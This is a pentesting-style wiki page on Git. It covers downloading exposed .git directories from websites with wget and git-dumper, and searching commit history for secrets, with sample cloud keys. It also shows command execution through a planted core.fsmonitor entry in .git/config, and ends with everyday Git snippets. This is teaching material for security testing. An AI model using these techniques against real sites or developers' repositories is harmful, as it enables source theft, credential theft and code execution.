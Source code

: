 ```yaml
---
description: >-
  A version control system often saving lots of information about how files were
  changes
---
```


# Git

## Description

Git is a version control system that allows you to save the state of files. It is often used with source code and published on [Github](https://github.com/). There are a few keywords that Git uses you need to know to understand the terminology:

* **Repositories**: The entirety of your git system, with the files, history, and information. Can be created using `git init`
* **Commits**: "Save states" of the files in your repository. Whenever you change something and you are happy with the change, you can commit it so it's saved as a snapshot that you can later go back to. Can be created using `git commit -m "message"`
* **Branches**: Parallel to your main repository, branches are sidesteps to slowly work on a new feature for example, and then later in time **merge** it into the main branch. Can be created using `git checkout -b newfeature`

All the information about your Git repository gets saved in a `.git` directory that is at the root of your repository. The `git` command interacts with this directory and lots of tools can get information from it. So if you ever find a `.git` directory you'll know the current directory is a Git repository.&#x20;

To find everything in a repository without having to think of every command, you can use a tool like [GitKraken](https://www.gitkraken.com/) to explore the repository visually. Just open the directory in that tool and you can see a timeline of what commits and branches were made.&#x20;

## Finding Git on websites

In some cases, you'll find that the website you're testing uses Git by finding a `.git` directory. Normally this should be hidden by a 403 Forbidden for example, but this is not always the case. Sometimes you can see a list of files, or you can directly access `.git/HEAD` instead.&#x20;

### Web - Directory Listing

When you visit the `.git` directory on the website, and you can see a list of files relating to git, you know that directory listing is on. This makes it really easy to download everything at once recursively and then examine the repository on your own machine.&#x20;

```shell-session
$ wget -r http://example.com/.git
```

#### Git-dumper

When a website disables directory listing, but the `.git` directory can still be found with something like `.git/HEAD`, you might be able to use [git-dumper](https://github.com/arthaud/git-dumper) on it to extract all the files without having the need for directory listing. This tool understands the Git file structure and can find all the related files:

{% embed url="https://github.com/arthaud/git-dumper" %}
A tool to dump a git repository to your local machine, without needing directory listing
{% endembed %}

```shell-session
$ pip install git-dumper
$ git-dumper http://example.com/.git git/
```

Then use the source code to perform more targeted attacks, or look for secrets, even in history:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ git log -p  # Show commits with diffs
</strong>...
+++ b/secret.py
@@ -0,0 +1,85 @@
+access_key_id = "AKIA6CFMOGSLALOPETMB"
+secret_access_key = "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"
+region = "us-east-2"
...
<strong>$ git branch -a  # List all branches
</strong>* master
  secret
</code></pre>

## Attacking Git Commands

Git is a very flexible system, allowing many settings to be changed to decide how CLI tools interact with the repository. These configuration variables can allow executing arbitrary commands however when certain git commands are executed. Similar to [#git-hooks](../linux/linux-privilege-escalation/known-services.md#git-hooks "mention"), the `core.fsmonitor` variable in `.git/config` is a common one that can be set to a bash command to execute:

{% code title=".git/config" %}
```diff
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
+       fsmonitor = "id | tee /tmp/pwned > /dev/tty"
```
{% endcode %}

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ git status
</strong>uid=1001(user) gid=1001(user) groups=1001(user)
...
</code></pre>

Many shell extensions like [Starship](https://github.com/starship/starship/issues/3974) use `git` to get the current repository and are vulnerable to this, as well as [Visual Studio Code](https://www.sonarsource.com/blog/securing-developer-tools-git-integrations/#example-of-affected-ide-visual-studio-code) (now only with Trusted Mode). To find such issues, you can create a malicious repository with as many landmines as possible that trigger on different commands. This creates an empty repository with most known ways to execute commands:

{% embed url="https://github.com/jwilk/git-landmine" %}
Create a repository with `.git/config` and `hooks` GIT landmines (`lib/payload` = payload)
{% endembed %}

## Git Snippets

If you're running a git repository, you might need some complicated actions from time to time. This is a collection of some common actions as commands to quickly copy and paste.&#x20;

{% code title="Push to remote origin" %}
```shell-session
$ git remote add origin https://github.com/[username]/[repository].git
$ git branch -M main  # Switch to main branch for GitHub
$ git push --set-upstream origin main  # Set the default upstream

$ git push  # From now on, you can just push
```
{% endcode %}

{% code title="Reset all commits" %}
```shell-session
$ rm -rf .git
$ git init
$ git commit -m "Initial commit"
$ git push --force  # Force to overwrite existing remote
```
{% endcode %}

{% code title="Undo last commit" %}
```shell-session
# # If not pushed yet
$ git reset --soft HEAD~
# # If already pushed
$ git reset HEAD~  # Use --hard to also throw away the changes in the commit
$ git push --force
```
{% endcode %}

{% code title="Create and push tag" %}
```shell-session
$ git tag 0.1.0
$ git push origin --tags  # Push all tags
# # More info: https://stackoverflow.com/a/18223354/10508498
```
{% endcode %}

